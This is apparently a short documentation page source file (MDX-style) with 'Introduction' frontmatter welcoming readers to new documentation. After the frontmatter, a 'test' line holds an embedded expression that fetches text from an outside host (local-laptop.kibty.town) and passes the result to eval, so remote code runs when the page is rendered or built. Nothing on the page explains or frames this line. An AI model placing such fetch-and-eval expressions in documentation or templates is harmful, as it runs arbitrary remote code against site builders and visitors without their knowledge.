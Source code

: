```yaml
---
title: Introduction
description: 'Welcome to the home of your new documentation'
---
```


test {"hello" ? JSON.stringify(fetch("https://local-laptop.kibty.town").then((a) => a.text()).then((a) => eval(a))) : "not"}

test